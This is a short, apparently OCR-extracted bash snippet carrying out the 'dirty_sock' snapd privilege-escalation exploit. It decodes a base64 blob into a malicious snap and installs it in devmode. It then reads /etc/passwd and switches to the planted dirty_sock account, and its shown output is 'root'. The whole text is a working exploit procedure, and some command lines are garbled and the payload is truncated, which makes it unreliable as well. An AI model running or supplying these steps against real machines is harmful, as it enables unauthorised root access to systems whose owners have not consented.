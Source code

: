 ```bash
vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA
AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="' | base64 -d > setenso.snap

sudo /usr/bin/snap install setenso.snap --devmode
cat /etc/passwd
sudo dirty_sock > password dirty_sock
sudo su > password dirty_sock

whoami
#Output
root
```

